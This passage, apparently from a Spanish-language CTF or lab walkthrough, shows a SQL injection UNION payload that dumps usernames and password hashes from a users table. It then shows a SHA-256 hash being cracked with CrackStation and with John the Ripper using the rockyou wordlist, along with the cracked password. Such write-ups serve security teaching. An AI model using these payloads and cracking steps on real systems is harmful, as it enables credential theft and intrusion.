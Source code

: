 vemos que existe la tabla **post** y **users** y podemos ver que la tabla que estamos revisando (post) tiene efectivamente 3 campos de los cuales 1 es numerico y es para el id y luego tenemos una tabla mas interesante que se llama users con un campo username y pwd. Veamos que tiene esa tabla users. 

```sql
' UNION SELECT NULL, username, pwd FROM users -- -
```

![Pasted-image-20240721021301.png](./assets/Pasted-image-20240721021301.png)

Nos muestra un nombre de usuario y un hash que parece ser sha-256. veamos si podemos crackearlo de forma simple en **crackstation**

si entramos a esta web: https://crackstation.net/ podremos ver este resultado al momento de poner el hash:

![Pasted-image-20240721021657.png](./assets/Pasted-image-20240721021657.png)


Como podemos ver, si pudimos romper ese hash y tenemos nuestra clave. Pero, si queremos hacerlo con john y rockyou  debemos utilizar los siguientes comandos:


```bash
touch hash && echo 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' > hash
```

```bash
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash

Warning! john.conf section [list.rules:best64] is multiple declared.
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2024-07-21 02:20) 3.030g/s 8837Kp/s 8837Kc/s 8837KC/s vimivera..veluasan
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
